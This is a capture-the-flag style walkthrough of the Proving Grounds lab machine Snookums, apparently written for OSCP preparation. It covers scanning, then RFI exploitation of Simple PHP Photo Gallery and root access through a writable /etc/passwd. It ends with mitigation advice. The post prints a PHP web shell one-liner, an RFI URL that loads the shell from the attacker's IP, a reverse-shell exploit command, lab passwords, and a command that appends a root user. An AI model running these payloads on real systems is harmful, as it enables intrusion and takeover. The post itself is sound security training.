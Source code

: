```yaml
---
title: Snookums
date: 2025-04-18
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough] 
image: snook.jpg
media_subpath: /assets/img/posts/2025-04-18-snookums/
---
```

## Introduction
In this walkthrough we will be solving Proving Grounds Intermediate Linux box Snookums. Let’s start ..

## Nmap

### TCP

Run a quick Nmap scan:

```bash
sudo nmap --open -sV 192.168.207.58
```

![image.png](image.png)

### UDP

Run UDP scan on top 100 ports:

```bash
 sudo nmap -sU -F 192.168.207.58 -Pn
```

![image.png](image%201.png)

All ports are closed

### Full Nmap scan

```bash
 sudo nmap -sVC -vvv 192.168.207.58 --script vuln
```

## Services

### Port 21

- Searching for public exploits for FTP service does not yield a result

```bash
 searchsploit vsftpd 3.0.2
```

![image.png](image%202.png)

- Anonymous login **allowed** but ls command does not return anything

![image.png](image%203.png)

### Port 22

No easily exploitable and public exploits for this version of the service **openssh 7.4**

### Port 111

Listing avaibale NFS shares does not yield anything 

```bash
showmount -e 192.168.207.58
```

![image.png](image%204.png)

### Port 139/445

Listing SMB shares we see just default ones 

```bash
smbclient -L //192.168.207.58
```

![image.png](image%205.png)

### Port 3306

We are not allowed to connect.

## Web

### Port 80

- Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
- **Simple PHP Photo Gallery v0.8 - this version has RFI vulnerability in**

```bash
http://192.168.207.58/image.php?img=
```

We can abuse this by storing **shell.php** web shell and accessing it from web server through RFI:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

and then accessing 

```bash
http://192.168.207.58/image.php?img=http://192.168.45.216/shell.php&cmd=<command>
```

![image.png](image%206.png)

## Exploitation

It seems vulnerability exists but 443 port is blocked, so I decided to use a port that is also used by web server 111.

```bash
python3 SimplePHPGal-RCE.py http://192.168.207.58/ 192.168.45.216 111
```

![image.png](image%207.png)

That’s it! We are in.

![image.png](image%208.png)

To make a shell interactive I used python

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png](image%209.png)

Looking at **db.php** we see:

![image.png](image%2010.png)

## Credentials

**>> Database Credentials**

`DBNAME: SimplePHPGal`

`DBUSER: root`

`DBPASS: MalapropDoffUtilize1337`

Enumerating database we found double base64 encoded password of the user **michael**:

![image.png](image%2011.png)
```text
josh : VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= —> TW9iaWxpemVIaXNzU2VlZHRpbWU3NDc= —> MobilizeHissSeedtime747

micheal : U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ== —> SG9ja1N5ZG5leUNlcnRpZnkxMjM= —> HockSydneyCertify123

serena: VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==:  T3ZlcmFsbENyZXN0TGVhbjAwMA==—> OverallCrestLean000
```

![image.png](image%2012.png)

**Now we are michael**

## Privilege Escalation

- [ ]  Situational awareness
- [ ]  Exposed Confidential
- [ ]  Password Authentication Abuse
- [ ]  Hunting Sensitive Information 
- [ ]  Sudo 
- [ ]  SUID/SGID 
- [ ]  Capabilities 
- [ ]  Cron Jobs Abuse 
- [ ]  Kernel Exploits 

I checked `/etc/passwd` and `/etc/shadow` files to see if they are writable by our user, and that is!, we can write to `/etc/passwd`.

> For backwards compatibility, if the second field of a user row in `/etc/passwd` contains a password hash, it takes precedence over the hash in `/etc/shadow`. If `/etc/passwd` is writable, we can easily enter a known password hash for the new root user, and then use the su command to switch to the root user.
{: .prompt-info}
So generate a password and add a new root user or delete x from root, password field or add a new root user with empty password.

```bash
openssl passwd "123456"` #- generating a password
```
```bash
`echo 'root2:lpI/FWQ4TYKik:0:0:root:/root:/bin/bash' >> /etc/passwd` #- adding a new root user with generated password to system
```
Now we are root!

## Mitigation

- **Prevent Remote File Inclusion (RFI)**
    - Disable `allow_url_include` and `allow_url_fopen` in `php.ini`.
    - Use input validation and whitelist allowed file paths to prevent arbitrary file inclusion.
- **Secure Database Credentials**
    - Store credentials outside the web root and use environment variables for sensitive configurations.
    - Implement least privilege access for database users and avoid using administrative accounts in web applications.
- **File Permissions & Ownership**
    - Ensure `/etc/passwd` and other critical system files are only writable by root.
    - Regularly audit file permissions to prevent unauthorized modifications.
- **System Hardening**
    - Keep software and services updated to patch known vulnerabilities.
    - Use a Web Application Firewall (WAF) to detect and block malicious requests.
